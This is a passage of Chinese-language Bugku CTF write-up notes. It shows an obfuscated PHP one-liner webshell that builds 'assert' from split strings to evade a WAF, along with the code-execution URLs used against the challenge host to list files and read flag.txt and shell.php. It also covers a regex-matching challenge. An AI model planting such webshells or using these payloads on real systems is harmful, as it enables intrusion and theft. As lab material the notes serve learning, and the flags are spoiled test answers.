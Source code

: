 			<?php  
				//flag{php_is_the_best_language}  
			?>

27. 过狗一句话 100
	>http://120.24.86.145:8010/
	>送给大家一个过狗一句话  
	
	hint:
	
		<?php 
			$poc="a#s#s#e#r#t"; 
			$poc_1=explode("#",$poc); 
			$poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; 
			$poc_2($_GET['s']) 
		?>
	
	解答：

		explode()

		http://120.24.86.145:8010/?s=print_r(scandir('./'))
		Array ( [0] => . [1] => .. [2] => 2.php [3] => 3.php [4] => 4.php [5] => 5.php [6] => a.php [7] => a.txt [8] => c.php [9] => conn [10] => f.html [11] => f.php [12] => flag.txt [13] => h.php [14] => haha.php [15] => index.php [16] => shell.php [17] => t2.php [18] => txxxc.php ) 

		http://120.24.86.145:8010/flag.txt
		BUGKU{bugku_web_009801_a}

		php代码执行漏洞

		http://120.24.86.145:8010/?s=print_r(file_get_contents('flag.txt')); 
		http://120.24.86.145:8010/?s=print_r(file_get_contents('shell.php')); 

28. 字符？正则？ 100
	>字符？正则？
	>http://120.24.86.145:8002/web10/
										
	解答：

		 <?php 
			highlight_file('2.php');
			$key='KEY{********************************}';
			$IM= preg_match("/key.*key.{4,7}key:\/.\/(.*key)[a-z][[:punct:]]/i", trim($_GET["id"]), $match);
			if( $IM ){ 
			  die('key is: '.$key);
			}
			?> 
		
		php正则表达式
			[[:alpha:]] 	任何字母
			[[:digit:]] 	任何数字
			[[:alnum:]] 	任何字母和数字
			[[:space:]] 	任何空白字符
			[[:upper:]] 	任何大写字母
			[[:lower:]] 	任何小写字母
			[[:punct:]] 	任何标点符号
			[[:xdigit:]] 	任何16进制的数字，相当于[0-9a-fA-F]
		preg_match()
			php的正则表达式匹配函数
			int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags = 0 [, int $offset = 0 ]]] )
